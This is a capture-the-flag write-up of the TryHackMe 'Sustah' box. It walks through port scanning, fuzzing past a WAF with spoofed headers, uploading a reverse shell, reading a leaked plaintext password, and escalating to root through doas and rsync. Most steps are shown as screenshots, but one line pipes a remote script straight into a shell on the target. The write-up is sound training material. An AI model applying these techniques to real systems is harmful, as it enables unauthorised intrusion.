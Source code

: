 This is a write up for the box SUSTAH on https://tryhackme.com/

First i add sustah to my /etc/hosts:

sudo vim /etc/hosts 

[![https://imgur.com/9VQSlLv.png](https://imgur.com/9VQSlLv.png)](https://imgur.com/9VQSlLv.png)

## Enumeration

First we start with a quick nmap scan.

[![https://imgur.com/dFiZBh9.png](https://imgur.com/dFiZBh9.png)](https://imgur.com/dFiZBh9.png)

Our gobuster doesnt give us any endpoints so lets look further.

There we can see the http port 8085 lets check it out.

[![https://imgur.com/nVxVCVL.png](https://imgur.com/nVxVCVL.png)](https://imgur.com/nVxVCVL.png)

Lets go for another gobuster on this port..

[![https://imgur.com/NJ6qyr5.png](https://imgur.com/NJ6qyr5.png)](https://imgur.com/NJ6qyr5.png)

So far we are pretty clueless.

Lets take a closer look at the inputfield.

We could try to bruteforce the right number with a method called fuzzing.
For that we create a wordlist of a specific range of numbers and lets it try each of them:

The tool we are going to use for that is called ffuf:

https://github.com/ffuf/ffuf

If we recall the description of the box:

"The developers have added anti-cheat measures to their game. Are you able to defeat the restrictions to gain access to their internal CMS?"
We probably also have to bypass a WAF.

Lets look at header injection by portswiggger:
https://portswigger.net/web-security/host-header/exploiting

By injecting the header in this way we can make the server belive the requests are coming from itself and therefor are trustworthy.

[![https://imgur.com/UbV0Trm.png](https://imgur.com/UbV0Trm.png)](https://imgur.com/UbV0Trm.png)

Now we can create our wordlist, we could use a onlinetool but we should try to write as much aspossible on our own :)

[![https://imgur.com/wnPqXyh.png](https://imgur.com/wnPqXyh.png)](https://imgur.com/wnPqXyh.png)

Now we can start our fuzzer tool:

We have to specify the wordlist we created with our little script, the headers to bypass the WAF, what we want to FUZZ, and the url.
I also added -fs which is a filter for the size 1004 because that is the normal response we would get if we have the wrong number.

[![https://imgur.com/4dDk7Ec.png](https://imgur.com/4dDk7Ec.png)](https://imgur.com/4dDk7Ec.png)

After inserting the right number we get a PATH.
After playing arround i found a adming loginpage with default credentials.
There we can upload files. 
Lets try to upload a reverseshell and run a nc listener.

[![https://imgur.com/pm551w8.png](https://imgur.com/pm551w8.png)](https://imgur.com/pm551w8.png)

Seems to work now we activate it by finding its location and clicking on it. ( or curl it )

[![https://imgur.com/iNkmr2K.png](https://imgur.com/iNkmr2K.png)](https://imgur.com/iNkmr2K.png)

Yes, it worked ! We are in :)

[![https://imgur.com/9NrVN9h.png](https://imgur.com/9NrVN9h.png)](https://imgur.com/9NrVN9h.png)

After searching for a good amount of time i find a backupfile of /etc/passwd with the password of kiran written in plaintext:

[![https://imgur.com/BZ4Iov1.png](https://imgur.com/BZ4Iov1.png)](https://imgur.com/BZ4Iov1.png)

First thing to do after: 
su kiran

is to create ssh keys

mkdir .ssh
ssh-keygen
touch authorized_keys
cat id_rsa.pub > authorized_keys

Now we can ssh into kiran with the -i parameter and the id_rsa key.


## Privescalation

After not finding any obvious vulnerabilities i decided to run linpeas.
Set up a simple python webserver on your host:

python3 -m http.server 1337

( you have to download linpeas first https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS )

then on the target in the /tmp directory:

curl http://youriphere:1337/linpeas.sh | sh

This will execute linpeas automatically.

The first thing that catches my eye is this doas.conf file which says we can run rsync as root:

[![https://imgur.com/JwnI0fg.png](https://imgur.com/JwnI0fg.png)](https://imgur.com/JwnI0fg.png)

So i tried ( i went to GTFOBINS to find privesc for rsync ) :   -> https://gtfobins.github.io/gtfobins/rsync/

[![https://imgur.com/sukmjzY.png](https://imgur.com/sukmjzY.png)](https://imgur.com/sukmjzY.png)

We can't run sudo since we don't have the sudo password. 

But what is this doas anyway? 

It seems to be a replacement for sudo where we can run commands as another user!

[![https://imgur.com/AQGteuV.png](https://imgur.com/AQGteuV.png)](https://imgur.com/AQGteuV.png)

So lets try to run rsync as user root since we dont need a password!

[![https://imgur.com/R4uinio.png](https://imgur.com/R4uinio.png)](https://imgur.com/R4uinio.png)

<iframe src="https://giphy.com/embed/vmon3eAOp1WfK" width="480" height="357" frameBorder="0" class="giphy-embed" allowFullScreen></iframe><p><a href="https://giphy.com/gifs/celebration-excited-loki-vmon3eAOp1WfK">via GIPHY</a></p>

![Celebration](https://media.giphy.com/media/vmon3eAOp1WfK/giphy.gif)

Thank you for reading! 
